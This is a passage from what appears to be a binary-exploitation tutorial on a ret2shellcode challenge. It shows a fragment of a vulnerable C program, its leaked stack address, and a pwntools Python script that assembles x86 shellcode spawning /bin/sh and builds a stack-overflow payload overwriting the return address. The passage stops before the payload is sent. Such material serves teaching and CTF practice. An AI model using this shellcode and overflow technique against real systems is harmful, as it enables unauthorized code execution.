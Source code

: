 ```c
{   
    hack_me();
    printf("Mission failed");
    return 0;
}
```

When we run the compiled program we receive the following output:


```
Hit me with your best shot @0xffdacae8

```

with an input prompt on the next line. The hex after the @ corresponds to the buffers address on the stack.

#### Exploit

An example exploit for the above binary could be:

```python

from pwn import *
proc = process('./ret2shellcode')

log.info("Receiving banner...")
proc.recvuntil("@")

buffer_addr = int(proc.recvuntil("\n", drop=True), 16)
log.success("Buffer address: " + hex(buffer_addr))

# attach debugger to see in gdb
# gdb.attach(proc) 

shellcode = asm('''
    xor eax, eax
    xor ebx, ebx
    xor ecx, ecx
    xor edx, edx

    push eax     

    push 0x68732f2f   
    push 0x6e69622f 

    mov ebx, esp   
    push eax

    push ebx
    mov ecx, esp
    mov eax, 0xb     

    int 0x80
''')

# send overflow to test offset to return
#overflow = cyclic(350)
offset = cyclic_find("daac")

payload = fit({
    0: shellcode,
    offset: p32(buffer_addr)
})

```
